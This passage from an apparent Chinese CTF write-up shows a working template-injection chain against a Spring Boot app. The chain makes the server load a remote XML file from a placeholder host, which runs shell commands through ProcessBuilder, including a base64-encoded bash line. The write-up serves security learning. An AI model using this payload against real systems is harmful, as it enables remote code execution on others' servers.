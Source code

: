 ```java
  } catch (Exception ex) {
    // We have to remap the exception to one in our signature.
    // But we pass extra information in the detail message.
    throw new ClassNotFoundException("" + cl + " : " + ex, ex);
  }
}
```

### 最终构造实现RCE

最终模板文件构造

```
{% set y= beans.get("org.springframework.boot.autoconfigure.internalCachingMetadataReaderFactory").resourceLoader.classLoader.loadClass("java.beans.Beans") %}
{% set yy =  beans.get("jacksonObjectMapper").readValue("{}", y) %}
{% set yyy = yy.instantiate(null,"org.springframework.context.support.ClassPathXmlApplicationContext") %}
{{ yyy.setConfigLocation("http://xxxx/1.xml") }}
{{ yyy.refresh() }}
```

1.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

本地弹出了计算器，那么现在则可以开始着手解题了，

构造命令`./getflag > /tmp/flag`

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>echo Li9nZXRmbGFnID4gL3RtcC9mbGFn|base64 -d|bash -i</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
